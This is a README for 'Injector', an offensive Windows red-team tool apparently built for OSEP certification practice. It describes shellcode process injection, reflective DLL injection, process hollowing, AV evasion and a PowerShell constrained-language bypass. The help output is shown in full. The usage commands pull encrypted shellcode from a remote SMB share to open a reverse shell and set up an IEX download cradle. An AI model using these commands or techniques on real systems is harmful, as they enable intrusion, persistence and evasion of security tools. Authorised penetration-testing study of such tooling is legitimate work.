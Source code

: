# Injector
Complete Arsenal of Memory injection and other techniques for red-teaming in Windows

# What does Injector do?

- Process injection support for shellcode located at remote server as well as local storage. Just specify the shellcode file and it will do the rest. It will by default inject into notepad.exe and if not found, it will create a notepad process and inject into it for persistence.
- Reflective DLL Injection for DLL injection. It downloads the DLL and injects into remote process.
- Process hollowing via svchosts.exe
- With -bypass flag it tends to use more advanced un-documented API for process injeciton and the routine itself gets changes.
- Now even supports encrypted shellcode i.e AES encrypted and Xor encryted shellcode are now supported. To encrypt the shellcode use Helper.exe in order to maintain consistency.  
- Supports CLM bypass for powershell. Just drop it to a whitelisted folder where you can execute C# binary, for instance at C:\\Windows\\Tasks

```
C:\Users\admin>Injector.exe
Help Options for Xenon:
-m       Mode of operation
        -m 1     Specifies the mode as Process injection
        -m 2     Specifies the mode as Reflective DLL Injection
        -m 3     Specifies the mode as Process Hollowing
        -m 4     No injection! Give me my damn shell
        -m 5     Powershell session via CLM bypass

-TempFile        File location that your current user can read
-shellcode       Use shellcode
-dll     Use dll
-decrypt-xor     Specify Xor decryption for shellcode
         -pass   Specifty the password for Xor decryption
-decrypt-aes     Specify aes decryption for shellcode
         -pass   Specifty the password for aes decryption
-location        Specify the location i.e either server or local
-bypass         Uses enhance attempts to bypass AV
```
To generate encrypted shellcode, use Helper.exe on kali along with proper switch.

### Example of usage

```
Injector.exe -m=1 -shellcode -encrypt-aes -pass=password -location="\\192.x.x.x\share\shellcode.txt" -bypass
```
This is will decrypt your shellcode and give you reverse shell. Presence of bypass flag instructs injector to use some other ways to get reverse shell i.e using some undocumented Win API.

```
Injector.exe -m=5 -TempFile=C:\\Users\\user\\sample.txt
```
This will give you a session where you can execute IEX cradle and get a proper reverse shell hence bypassing CLM.

# Why make it?

Main aim is to help me in OSEP :P

# Talk to me?

Shoot me a DM on twitter @gh0st_R1d3r_0x9 to talk abt more interesting indeas/modules that can make this more amazing!

Current module in pipeline
- Phantom DLL Injection

